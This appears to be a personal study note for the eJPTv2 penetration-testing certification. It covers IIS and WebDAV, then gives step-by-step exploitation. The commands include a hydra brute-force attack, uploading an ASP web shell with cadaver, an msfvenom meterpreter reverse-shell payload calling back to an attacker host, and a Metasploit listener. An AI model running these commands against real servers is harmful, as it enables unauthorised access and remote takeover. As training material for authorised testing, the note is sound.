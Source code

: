 Tags: #template 
Related to: #note-taking, #notes
See also: 
Index: [[📁EJPTv2 - INDEX]]] - index location 

#### Summary
Add a brief overview of what the content is

#### IIS
IIS - Propriotary - has GUI for managing websies

Can run static and dynamic pages using ASP.NET and PHP

Runs typically in 80 or 443

WebDAV 
Used for editing and managing files on servers

Runs on top of Apache or IIS on 80 or 443  

Requires Authentication

---

Exploiting Web dav

- Discover WEbdav
-  Brute force on server
- After Auth upload .asp payload for revese shell

Tools

- davtest - scan auth and exploit webdav server
- cadaver - working with webdav

Nmap scripts

http-webdav-scan
http-enum


Brute force - hydra

`hydra -L /path/to/username list  -P /path/to/password list ip http-get /webdav/
`
Using Davtest
`davtest -url <target-server>/webdav` - unauthenticated

`davtest -auth username:password -url <target-server>/webdav`

Checks webdav conection and finds out what files can be uploaded and what files can be executed

Using cadaver

cadaver http://targert-url

upload web shell
`put /usr/share/webshells/asp/webshell.asp`

Exploiting using metasploit - reverese shell

- Generating metasploit payload
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker-id LPORT=a port in attacker machine -f asp > filename.asp`
- upload as before using cadaver

- start postgresql n msfconsole- `service postgresql start && msfconsole`
- To setup listener`use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- Set the LHOST and LPORT as before
- run the listener

run getuid and sysinfo to understand sys and user priv

OR

`use /exploit/windows/iis/iss_webdav_upload_asp`

